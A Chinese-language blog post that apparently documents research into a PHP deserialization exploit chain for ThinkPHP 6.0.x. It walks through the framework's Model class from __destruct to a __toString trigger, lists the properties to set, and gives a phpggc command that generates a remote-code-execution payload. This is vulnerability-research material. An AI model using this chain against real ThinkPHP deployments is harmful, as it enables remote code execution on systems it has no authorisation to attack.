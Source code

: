 ```yaml
---
title: thinkphp v6.0.x 反序列化利用链挖掘
tags: 
  - 漏洞分析
categories: codereview
date: 2019-09-10 12:59:00
---
```

## 0x00 前言

上一篇分析了tp 5.2.x的反序列化利用链挖掘，顺着思路，把tp6.0.x也挖了。有类似的地方，也有需要重新挖掘的地方。
<!-- more -->

## 0x01 环境准备

采用composer安装6.0.*-dev版本

```
composer create-project topthink/think=6.0.x-dev v6.0
```

## 0x02 利用链分析

### 背景回顾

拿到v6.0.x版本，简单的看了一下，有一个好消息和一个坏消息。

好消息是5.2.x版本函数动态调用的反序列化链后半部分，还可以利用。

坏消息是前面5.1.x，5.2.x版本都基于触发点`Windows`类的`__destruct`,好巧不巧的是6.0.x版本取消了`Windows`类。这意味着我们得重新找一个合适的起始触发点，才能继续使用上面的好消息。

### vendor/topthink/think-orm/src/Model.php 新起始触发点

为了节省篇幅，后文不再重复介绍触发`__toString`函数后的利用链，这部分同5.2.x版本相同(不过wonderkun师傅的利用链已失效，动态函数调用的利用链还能用)。

通常最好的反序列化起始点为`__destruct`、`__wakeup`，因为这两个函数的调用在反序列化过程中都会自动调用，所以我们先来找此类函数。这里我找了`vendor/topthink/think-orm/src/Model.php`的`__destruct`函数。

```php
public function __destruct()
{
    if ($this->lazySave) {// 构造lazySave为true，进入save函数
        $this->save();
    }
}

public function save(array $data = [], string $sequence = null): bool
{
  // ...
  if ($this->isEmpty() || false === $this->trigger('BeforeWrite')) {
    return false;
  }

  $result = $this->exists ? $this->updateData() : $this->insertData($sequence);
  // ...
}
```

首先构造`lazySave`的值为`true`,从而进入`save`函数。

这次触发点位于`updateData`函数内，为了防止前面的条件符合，而直接return，我们首先需要构造相关参数

```php
public function isEmpty(): bool
{
    return empty($this->data);
}

protected function trigger(string $event): bool
{
  if (!$this->withEvent) {
    return true;
  }
  // ...
```

其中需保证`isEmpty`返回`false`，以及`$this->trigger('BeforeWrite')`返回`true`

1. 构造`$this->data`为非空数组
2. 构造`$this->withEvent`为`false`
3. 构造`$this->exists`为`true`

从而进入我们需要的`updateData`函数，来看一下该函数内容

```php
protected function updateData(): bool
{
    // 事件回调
    if (false === $this->trigger('BeforeUpdate')) {// 此处前面已符合条件
        return false;
    }

    // ...

    // 获取有更新的数据
    $data = $this->getChangedData();

    if (empty($data)) {
        // 关联更新
        if (!empty($this->relationWrite)) {
            $this->autoRelationUpdate();
        }
        return true;
    }
		// ...
    // 检查允许字段
    $allowFields = $this->checkAllowFields(); // 触发__toString
```

同样的，为了防止提前`return`，需要符合`$data`非空，来看一下`getChangedData`

```php
public function getChangedData(): array
{
    $data = $this->force ? $this->data : array_udiff_assoc($this->data, $this->origin, function ($a, $b) {
        if ((empty($a) || empty($b)) && $a !== $b) {
            return 1;
        }

        return is_object($a) || $a != $b ? 1 : 0;
    });

    // ...

    return $data;
}
```

这里我们可以强行置`$this->force`为`true`，直接返回我们前面构造的非空`$this->data`

这样，我们就成功到了调用`checkAllowFields`的位置

```php
protected function checkAllowFields(): array
{
    // 检测字段
    if (empty($this->field)) {
        if (!empty($this->schema)) {
            $this->field = array_keys(array_merge($this->schema, $this->jsonType));
        } else {
            $query = $this->db();// 最终的触发__toString的函数
            $table = $this->table ? $this->table . $this->suffix : $query->getTable();

            $this->field = $query->getConnection()->getTableFields($table);
        }

        return $this->field;
    }
		// ...
}
```

同样，为了到`$this->db()`函数的调用，需要

1. 构造`$this->field`为空
2. 构造`$this->schema`为空

其实这两个地方不需要构造，默认都为空

最终，我们终于到了可以触发`__toString`的位置

```php
public function db($scope = []): Query
{
    /** @var Query $query */
    $query = self::$db->connect($this->connection)
        ->name($this->name . $this->suffix)// toString
        ->pk($this->pk);
```

看到熟悉的字符串拼接了嘛！！！

不过为了达到该出拼接，我们还是得首先满足`connect`函数的调用。此处代码就不说了，置`$this->connection`为`mysql`即可。接下来，不管是设`$this->name`还是`$this->suffix`为最终的触发`__toString`的对象，都会有同样的效果。

后续的思路，就是原来`vendor/topthink/think-orm/src/model/concern/Conversion.php`的`__toString`开始的利用链，不在叙述。

我把exp集成到了[phpggc](https://github.com/wh1t3p1g/phpggc)上，使用如下命令即可生成

```bash
./phpggc -u ThinkPHP/RCE2 'phpinfo();'
```

这里由于用到了SerializableClosure，需要使用编码器编码，不可直接输出拷贝利用。


